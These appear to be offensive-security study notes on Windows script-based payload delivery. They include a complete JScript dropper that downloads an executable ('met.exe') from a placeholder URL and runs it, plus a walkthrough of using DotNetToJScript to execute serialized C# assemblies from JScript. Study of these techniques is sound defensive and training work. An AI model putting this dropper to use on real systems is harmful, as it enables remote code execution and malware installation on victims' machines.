 # Basic Dropper in JScript

- To perform a HTTP GET Request, we can use the MSXML2.XMLHTTP Object which is based on Microsoft XML Core Services.
- We would be using CreateObject method of the Windows Script Host to instantiate the MSXML2.XMLHTTP Object.

JScript Code :

    var url = "<link to exe file>"
    var Object = WScript.CreateObject('MSXML2.XMLHTTP');
    Object.Open('GET', url, false);
    Object.Send();
    if (Object.Status == 200)
    {
        var Stream = WScript.CreateObject('ADODB.Stream');
        Stream.Open();
        Stream.Type = 1;
        Stream.Write(Object.ResponseBody);
        Stream.Position = 0;
        Stream.SaveToFile("met.exe", 2);
        Stream.Close();
    }
    var r = new ActiveXObject("WScript.Shell").Run("met.exe");

Explanation :

1. We first store the link to the exe file in a variable called url
2. Next we create the Object of MSXML2.XMLHTTP
3. We then create a GET Request to the link
4. Next we send the GET request with Object.Send() command.
5. If the Object Status is 200, that means it was a success and the file was found.
6. We then create a Stream to copy the response into it and save it to a file
7. Using the _ActiveXObject_, we execute a shell command were we execute the exe file.

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms767625%28v%3dvs.85%29
> - https://www.w3schools.com/asp/ado_ref_stream.asp
> - https://en.wikipedia.org/wiki/ActiveX

&nbsp;

# JScript and C#

Just as we did in the previous topics of Invoking Win32 APIs from C# and integrating it in powershell or VBA Script, we will follow a similar approach here.

A Simple Hello World Program can be found [here](./C%23%20Programs/HelloWorld.cs)

Explanation :

1. We first import the required libraries in C#.
2. We then specify the namespace HelloWorld
3. We then specify the classname followed by the Main function.
4. Using the Console.WriteLine method, we can print the text to console.

Compiled exe file can be found [here](./Compiled%20binaries/HelloWorld.exe)

&nbsp;

> Namespaces in C# are used to organize too many classes so that it can be easy to handle the application. In a simple C# program, we use System.Console where System is the namespace and Console is the class. To access the class of a namespace, we need to use namespacename.classname

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/api/system.console.writeline?view=netframework-4.8

> Visual Studio > Console (.Net Framwork) template > Build > exe file

&nbsp;

# DotNetToJScript

A project created by James Forshaw in 2017 to execute C# assembly from JScript.
Github Project : https://github.com/tyranid/DotNetToJScript

We can download the latest release. The file also has an example compiled dll file which we can use for testing.

The command for compiling the dll to js file is :

![DotNetToJscript](./images/DotNetToJscript.png)

Source Code of ExampleAssembly can be found [here](./C%23%20Programs/ExampleAssembly.cs)

Explanation :

1. The first function sets the version of the .Net framwork
2. The second function is empty as we did not set the -d flag in DotNetToJscript
3. The next function base64ToStream converts a base64 shellcode to Data stream.
4. The serialized_obj variable stores the serialized base64 blob
5. The entry_class variable stores the name of the class which we want to execute.
6. We then call the setversion() function and the base64ToStream() function
7. The BinaryFormatter object is instantiated from which we call the deserialize method to deserialize the Serialized blob.
8. We then execute relevant methods using the DynamicInvoke and CreateInstance methods.
9. At last we execute the constructor with the help of CreateInstance.

&nbsp;

# Win32 API calls from C#
